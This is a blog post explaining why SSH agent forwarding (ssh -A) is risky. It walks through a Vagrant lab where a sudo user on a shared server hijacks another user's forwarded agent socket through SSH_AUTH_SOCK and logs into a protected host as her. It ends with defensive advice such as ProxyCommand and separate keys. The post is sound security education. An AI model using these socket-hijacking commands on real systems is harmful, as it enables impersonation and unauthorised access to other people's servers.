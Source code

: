 ```yaml
---
layout: post
title: When is ssh -A insecure?
comments: true
author:
  name: Marcelo Dominguez
  email: marcelo@wyeworks.com
  twitter_handle: marpo60
  github_handle: marpo60
  image: /images/team/marcelo-dominguez.jpg
  description: Software engineer - Curious by nature - Sports lover - Tech guy
published: true
---
```


## Introduction

### What's the authentication agent forwarding for?

Let's start showing what `man ssh` says about it:

> `-A` Enables forwarding of the authentication agent
> connection. This can also be specified on a per-host basis in a
> configuration file.
Agent forwarding should be enabled with caution.  Users with the
ability to bypass file permissions on the remote host (for the agent's
UNIX-domain socket)
can access the local agent through the forwarded connection.  An
attacker cannot obtain key material from
the agent, however they can perform operations on the keys that
enable them to authenticate using the identities loaded into the
agent.

It tries to solve the following problem:

`Laptop -> Server A -> Server B`

User wants to connect to Server A and from Server A to Server B
forwarding all authentication requests to Laptop.

<!--more-->

### How do we use it?

{% codeblock lang:sh %}
  user@laptop$ ssh -A serverA
  user@serverA$ ssh serverB
  user@serverB$
{% endcodeblock %}

## So, when is ssh -A insecure?

The man page has the following note:

> Agent forwarding should be enabled with caution.

So, we have to be careful with this option, but what are the problems?

With the intention of gaining more insight about the problem. We'll do
an experiment, we'll set up a scenario that is far from ideal but it's
simple enough to reproduce the problem.

## Experiment

To follow this experiment you'll need to have [vagrant](https://www.vagrantup.com/) installed
in your computer. You don't need to have previous knowledge of vagrant
to follow the experiment.
All the config files used in this experiment can be found [here](https://github.com/marpo60/ssh_forward_agent_issue).

Let's start building a topology from scratch.

The topology will include 3 virtual servers and our own machine:

- host
- web (172.17.8.101)
- worker (172.17.8.102)
- secret (172.17.8.110)

Users:

- me
- Alice (Good)
- Eve (Bad)

Facts:

* The host machine is our machine where we will create the network
topology using virtual machines
* The web server is a virtual machine that will emulate a server
accessible from the internet.
* The worker server is a virtual machine that will emulate a
server accessible only from the web server.
* The secret server is a virtual machine that will emulate a
server accessible only by Alice from the internet.

Let's start the servers with `vagrant up`.

`host$ vagrant up` (This can take a while...)

First let's add all the keys to the ssh agent of the host
machine

{% codeblock lang:sh %}
  me@host$ ssh-add alice_id_rsa
  me@host$ ssh-add eve_id_rsa
{% endcodeblock %}

Now we'll open a new terminal and emulate that Alice is working
on the worker server

Note that for this experiment we set up another instance
of the ssh daemon in port 2222
in order to avoid messing with the default ssh server and
Vagrant configurations, please check the config files.

{% codeblock lang:sh %}
  me@host$ ssh -A -i alice_id_rsa -p 2222 alice@172.17.8.101
  alice@web:~$ ssh -p 2222 172.17.8.102
  alice@worker:~$
{% endcodeblock %}

Now on other terminal let's pretend to be Eve

{% codeblock lang:sh %}
  me@host$ ssh -i eve_id_rsa -p 2222 eve@172.17.8.101
{% endcodeblock %}

Eve will not use `-A` options because she doesn't need to use the
worker server

Eve finds out that alice is connected

{% codeblock lang:sh %}
  eve@web:~$ ps -aux | grep sshd | grep alice
  root      2469  0.0  0.8 107696  4252 ?        Ss   21:49   0:00
  sshd: alice [priv]
  alice     2522  0.0  0.3 107696  1952 ?        S    21:49   0:00
  sshd: alice@pts/1
  eve@web:~$
{% endcodeblock %}

And she also finds out that Alice is using `-A` because a socket
file was generated in /tmp/ssh-\*

{% codeblock lang:sh %}
  eve@web:~$ ls -lha /tmp/
  total 24K
  drwxrwxrwt  5 root    root    4.0K Jan 19 21:55 .
  drwxr-xr-x 23 root    root    4.0K Jan 19 21:34 ..
  drwxrwxrwt  2 root    root    4.0K Jan 19 21:34 .ICE-unix
  drwx------  2 alice   alice   4.0K Jan 19 21:49
  ssh-xeIzefGEYs
  -rwx--x--x  1 vagrant vagrant  676 Jan 19 21:34 vagrant-shell
  drwxrwxrwt  2 root    root    4.0K Jan 19 21:34 .X11-unix
  eve@web:~$
{% endcodeblock %}

Eve now becomes root and impersonate into Alice.

{% codeblock lang:sh %}
  eve@web:~$ sudo su #eve123
  root@web:/home/eve# export SSH_AUTH_SOCK=/tmp/ssh-xeIzefGEYs/agent.2522
  root@web:/home/eve# ssh -p 2222 alice@172.17.8.110
  alice@secret:~$
{% endcodeblock %}

So, with this simple steps now Eve is connected to secret
machine as Alice.

## Conclusions

It's not unusual for users to have sudo permissions on shared
environments so you should avoid using
-A option if you don't trust that system. One
alternative could be to use `ProxyCommand` instead of `-A` like it
mentions [here](http://backreference.org/2010/02/26/jump-in-with-ssh-and-netcat/).

But in case you have to use the `-A` option and you don't trust the
sudoers of the shared system, create
a new pair of private and public keys for those servers,
in this way you'll reduce the risk of
compromising other servers.

Cheers!
